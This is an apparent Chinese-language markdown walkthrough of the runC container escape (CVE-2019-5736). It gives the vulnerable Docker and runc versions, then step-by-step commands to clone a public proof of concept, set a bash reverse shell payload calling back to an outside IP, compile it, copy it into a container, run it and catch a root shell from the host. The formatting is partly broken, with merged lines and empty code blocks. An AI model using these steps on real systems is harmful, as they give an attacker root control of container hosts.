



# runC容器逃逸漏洞（CVE-2019-5736）

- #### ⭐**runC容器逃逸漏洞（CVE-2019-5736）**

**漏洞简述：**
Docker 18.09.2之前的版本中使用了的runc版本小于1.0-rc6，因此允许攻击者重写宿主机上的runc 二进制文件，攻击者可以在宿主机上以root身份执行命令。
**利用条件：**
Docker版本 < 18.09.2，runc版本< 1.0-rc6，一般情况下，可通过 docker 和docker -version查看当前版本情况。

**利用步骤：**

1、下载poc

```
git clone https://github.com/Frichetten/CVE-2019-5736-PoC
```

2、修改Payload

```
vi main.gopayload = "#!/bin/bash \n bash -i >& /dev/tcp/203.0.113.1/12345 0>&1"
```

3、编译生成payload

```
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

- ```

```


4、实战中可以curl等方式下载，这边直接使用docker cp放入容器
```

sudo docker cp ./main 248f8b7d3c45:/tmp

```
5、在容器中执行payload
```

## 修改权限chmod 777 main# 执行Payload./main

```
- 

6、在192.168.172.136上监听本地端口，成功获取宿主机反弹回来的shell：

```
